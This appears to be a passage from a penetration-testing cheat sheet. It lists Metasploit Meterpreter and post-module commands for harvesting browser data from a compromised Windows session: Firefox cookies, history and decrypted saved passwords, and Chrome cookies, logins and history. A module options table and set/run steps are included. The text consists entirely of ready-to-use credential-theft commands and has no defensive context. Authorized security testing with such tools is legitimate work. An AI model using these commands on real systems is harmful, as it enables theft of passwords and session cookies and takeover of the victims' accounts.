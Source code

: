 # 04 - Metasploit

## 4.1 - All Browsers

`meterpreter > run windows/gather/forensics/browser_history`

## 4.2 - Firefox

```
meterpreter > run enum_firefox

meterpreter > run post/firefox/gather/cookies timeout=180

meterpreter > run post/firefox/gather/history timeout=180

meterpreter > run post/firefox/gather/passwords timeout=180

meterpreter > run post/multi/gather/firefox_creds decrypt=[false | true]
```

## 4.3 - Google Chrome

### 4.3.1 - Meterpreter

`meterpreter > run post/windows/gather/enum_chrome migrate=[true | false]`

### 4.3.2 - Post Module

```
msf > use post/windows/gather/credentials/chrome

msf post(windows/gather/credentials/chrome) > options

Module options (post/windows/gather/credentials/chrome):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   ARTIFACTS     All              no        Type of artifacts to collect (Accepted: All, cookies, logins, web_history)
   EXTRACT_DATA  true             no        Extract data and stores in a separate file
   REGEX         ^password        no        Match a regular expression
   SESSION                        yes       The session to run this module on
   STORE_LOOT    true             no        Store artifacts into loot database

msf post(windows/gather/credentials/chrome) > set artifacts [All | cookies | logins | web_history]

msf post(windows/gather/credentials/chrome) > set extract_data [true | false]

msf post(windows/gather/credentials/chrome) > set store_loot [true | false]

msf post(windows/gather/credentials/chrome) > set regex [regular_expression]

msf post(windows/gather/credentials/chrome) > set session <session_id>

msf post(windows/gather/credentials/chrome) > run
```